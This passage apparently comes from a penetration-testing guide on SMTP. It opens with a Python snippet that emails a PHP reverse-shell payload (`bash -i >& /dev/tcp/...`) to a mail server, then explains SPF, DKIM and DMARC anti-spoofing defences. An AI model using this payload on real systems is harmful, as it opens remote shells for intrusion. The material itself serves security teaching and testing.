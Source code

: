 ```python

# payload
message = ("<?php system('bash -i >& /dev/tcp/%s/%d 0>&1'); ?>" % (lhost,lport))

print("[*] Payload is generated : %s" % message)

msg.attach(MIMEText(message, 'plain'))
server = smtplib.SMTP(host=rhost,port=rport)

if server.noop()[0] != 250:
print("[-]Connection Error")
exit()

server.starttls()

# Uncomment if log-in with authencation
# server.login(msg['From'], password)

server.sendmail(msg['From'], msg['To'], msg.as_string())
server.quit()

print("[***]successfully sent email to %s:" % (msg['To']))
```
## Mail Spoofing Countermeasures

Organizations are prevented from having unauthorized email sent on their behalf by employing **SPF**, **DKIM**, and **DMARC** due to the ease of spoofing SMTP messages.

A **complete guide to these countermeasures** is made available at [https://seanthegeek.net/459/demystifying-dmarc/](https://seanthegeek.net/459/demystifying-dmarc/).

### SPF

{% hint style="danger" %}
SPF [was "deprecated" in 2014](https://aws.amazon.com/premiumsupport/knowledge-center/route53-spf-record/). This means that instead of creating a **TXT record** in `_spf.domain.com` you create it in `domain.com` using the **same syntax**.\
Moreover, to reuse previous spf records it's quiet common to find something like `"v=spf1 include:_spf.google.com ~all"`
{% endhint %}

**Sender Policy Framework** (SPF) is a mechanism that enables Mail Transfer Agents (MTAs) to verify whether a host sending an email is authorized by querying a list of authorized mail servers defined by the organizations. This list, which specifies IP addresses/ranges, domains, and other entities **authorized to send email on behalf of a domain name**, includes various "**Mechanisms**" in the SPF record.

#### Mechanisms

From [Wikipedia](https://en.wikipedia.org/wiki/Sender_Policy_Framework):

| Mechanism | Description                                                                                                                                                                                                                                                                                                                         |
| --------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| ALL       | Matches always; used for a default result like `-all` for all IPs not matched by prior mechanisms.                                                                                                                                                                                                                                  |
| A         | If the domain name has an address record (A or AAAA) that can be resolved to the sender's address, it will match.                                                                                                                                                                                                                   |
| IP4       | If the sender is in a given IPv4 address range, match.                                                                                                                                                                                                                                                                              |
| IP6       | If the sender is in a given IPv6 address range, match.                                                                                                                                                                                                                                                                              |
| MX        | If the domain name has an MX record resolving to the sender's address, it will match (i.e. the mail comes from one of the domain's incoming mail servers).                                                                                                                                                                          |
| PTR       | If the domain name (PTR record) for the client's address is in the given domain and that domain name resolves to the client's address (forward-confirmed reverse DNS), match. This mechanism is discouraged and should be avoided, if possible.                                                                                     |